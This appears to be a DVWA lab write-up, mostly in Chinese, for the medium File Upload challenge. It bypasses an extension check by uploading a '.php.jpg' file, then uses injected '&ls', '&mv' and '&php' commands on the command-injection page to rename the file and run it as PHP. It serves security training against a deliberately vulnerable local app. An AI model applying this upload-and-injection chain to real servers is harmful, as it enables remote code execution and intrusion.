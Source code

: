 # File Upload

> Objective
> Execute any PHP function of your choosing on the target system (such as [phpinfo()](https://secure.php.net/manual/en/function.phpinfo.php)
> or [system()](https://secure.php.net/manual/en/function.system.php)) thanks to this file upload vulnerability.

### 觀察

試著上傳 *.php 檔案，這次它會檢查副檔名，限定 `jpg` or `png`

```
yo.php
yo.php.php
```

```
Your image was not uploaded. We can only accept JPEG or PNG images.
```

### 更換副檔名上傳後搭配 command injection 執行檔案

那我們就給它 jpg 吧，上傳後再想辦法把副檔名改回來，還好沒有檢查的很嚴格

```
yo.php.jpg
```

```
../../hackable/uploads/yo.php.jpg succesfully uploaded!
```

回到 command injection 的頁面，確認檔案有上傳成功

```
&ls ../../hackable/uploads
```

```
dvwa_email.png
yo.php.jpg
```

接著只要將副檔名從 `jpg` 修改回 `php` 即可

```
&mv ../../hackable/uploads/yo.php.jpg ../../hackable/uploads/yo.php
```

```
&ls ../../hackable/uploads
```

```
dvwa_email.png
yo.php
```

最後直接在這頁執行也可從上傳的資料路徑夾執行我們上傳的檔案

```
&php ../../hackable/uploads/yo.php
```

```
http://localhost:8086/hackable/uploads/yo.php
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/0fa61ad0-ae2d-4654-b092-f881fc3ff75d/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T171113Z&X-Amz-Expires=86400&X-Amz-Signature=00538e46cad98457de7077e0418d9c076893d65406a301c447e278d1f72d8b6e&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b8b021c5-5525-4870-a47e-4b11d8c74a0f/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T171117Z&X-Amz-Expires=86400&X-Amz-Signature=8191eee2306fd26b8c1bc42ad96f84f37e05f41234d34661c8730c5c75534235&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)
